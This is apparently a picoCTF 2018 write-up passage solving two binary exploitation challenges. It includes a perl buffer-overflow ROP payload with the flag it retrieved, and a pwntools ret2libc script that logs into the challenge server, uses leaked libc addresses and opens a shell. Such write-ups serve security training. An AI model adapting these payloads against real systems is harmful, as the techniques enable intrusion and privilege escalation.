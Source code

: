 ```python
		print r.recvall()
		break

r.close()
```

## rop_chain
```
080485cb T win_function1
080485d8 T win_function2
0804862b T flag
```

To get the flag, win1 must be true, win2 must be true, arg_check2 must be equal to 0xDEADBAAD
```
win_function1():
	win1 = true;

	win_function2(arg):
		win1 && arg == 0xBAAAAAAD then:
			win2 = true;

			flag()
```

```
$ perl -e 'print "A"x28 . "\xcb\x85\x04\x08\xd8\x85\x04\x08\x2b\x86\x04\x08\xad\xaa\xaa\xba\xad\xba\xad\xde"' | ./rop
Enter your input> picoCTF{rOp_aInT_5o_h4Rd_R1gHt_6e6efe52}
```

## got_2_learn_libc

```python
#!/usr/bin/python2

from pwn import *

directory = '/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833'
shell = ssh('secsession', '2018shell1.picoctf.com', password='')
sh = shell.run('sh')
sh.sendline('cd ' + directory)
sh.sendline('./vuln')

# The offset for system() from puts() in this version of libc is (&puts - 0x24800)
# The ./vuln application leaks to us some addresses from libc so we can first
# test puts(useful_string) which will output "/bin/sh" to the shell.
# The next step is executing system(useful_string) which lands us in a shell
# with escalated privileges. The next step is to just 'cat flag.txt'.

system_offset = 0x24800
puts = p32(int(sh.recvline_startswith('puts')[6:].strip(), 16) - system_offset)
useful_string = p32(int(sh.recvline_startswith('useful_string')[15:].strip(), 16))

payload = asm('nop') * 160		# all filler
payload += puts					# %eip
payload += '\x01\x02\x03\x04'	# return address
payload += useful_string		# first argument to system()
payload += '\n'

sh.sendline(payload)
sh.interactive()

shell.close()
```